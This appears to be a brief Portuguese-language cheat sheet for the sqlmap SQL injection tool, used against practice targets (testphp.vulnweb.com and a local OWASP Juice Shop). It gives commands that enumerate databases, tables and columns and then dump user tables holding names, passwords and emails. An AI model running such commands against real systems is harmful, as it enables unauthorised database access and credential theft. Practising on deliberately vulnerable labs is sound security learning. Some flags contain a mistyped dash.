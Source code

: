 # SQLMap

Site para testes http://testphp.vulnweb.com

$ sqlmap --help

$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs

$ sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables

$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns

$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump

Database Schema Juice-Shop

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4


## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
